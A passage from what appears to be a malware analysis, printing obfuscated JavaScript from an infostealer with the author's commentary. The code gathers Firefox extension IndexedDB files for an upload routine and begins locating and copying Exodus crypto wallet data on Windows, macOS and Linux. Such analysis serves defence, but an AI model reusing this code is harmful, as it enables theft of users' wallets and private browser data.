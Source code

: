 ```javascript
                  let _0x274c80 = [];
                  _0x274c80 = fs.readdirSync(_0x13f160);
                  _0x274c80.forEach(_0x52f33a => {
                    if (!fs.statSync(path.join(_0x13f160, _0x52f33a)).isDirectory()) {
                      let _0x2df4ab = path.join(_0x13f160, _0x52f33a);
                      const _0x24f43b = {
                        filename: _0x362ae2 + '_' + _0x24f229 + '_' + _0x52f33a
                      };
                      _0x5d04e2.push({
                        'value': fs.createReadStream(_0x2df4ab),
                        'options': _0x24f43b
                      });
                    }
                  });
                }
              });
            }
          });
          _0x24f229 += 1;
        }
        _0x362ae2 += 1;
      });
      Upload(_0x5d04e2, _0x4d5c28);
      return _0x5d04e2;
    }
  };
```
As you can see, the ```uploadMozzila``` do the following:
1. Targets Firefox profile storage in: ```~/AppData/Roaming/Mozilla/Firefox/Profiles```
2. Searches for folders with ```-release``` (indicating active user profiles).
3. In those profiles, it looks for: ```/storage/default/moz-extension*/idb/*.files/*```. This is where IndexedDB data for extensions is stored — often used by browser extensions to store private data.

<hr style="border: none; border-top: 1px solid #ccc;">

And it doesn’t even try to hide it—the ```uploadES``` function is downright obvious about what it’s doing:
```javascript
const uploadEs = _0x126cbf => {
    let _0x5c8aea = '';
    let _0x16466a = [];
    if ('w' == platform[0]) {
      _0x5c8aea = getAbsolutePath('~/') + "/AppData/Roaming/Exodus/exodus.wallet";
    } else {
      if ('d' == platform[0]) {
        _0x5c8aea = getAbsolutePath('~/') + "/Library/Application Support/exodus.wallet";
      } else {
        _0x5c8aea = getAbsolutePath('~/') + "/.config/Exodus/exodus.wallet";
      }
    }
    if (testPath(_0x5c8aea)) {
      let _0x898f1c = [];
      try {
        _0x898f1c = fs.readdirSync(_0x5c8aea);
      } catch (_0x13d436) {
        _0x898f1c = [];
      }
      let _0x20978e = 0;
      if (!testPath(getAbsolutePath('~/') + "/.n3")) {
        fs_promises.mkdir(getAbsolutePath('~/') + '/.n3');
      }
      _0x898f1c.forEach(async _0x1e308f => {
        let _0x1ae0e6 = path.join(_0x5c8aea, _0x1e308f);
```